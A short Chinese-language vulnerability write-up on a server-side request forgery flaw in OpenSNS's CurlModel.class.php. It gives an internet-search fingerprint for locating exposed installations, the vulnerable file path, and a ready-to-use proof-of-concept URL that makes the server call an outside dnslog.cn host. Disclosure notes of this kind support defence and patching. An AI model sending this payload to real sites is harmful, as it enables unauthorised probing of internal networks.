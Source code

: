 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154436896](./images/202205181544965.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![image-20220518154502605](./images/202205181545686.png)

构造POC

```
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![image-20220518154516760](./images/202205181545840.png)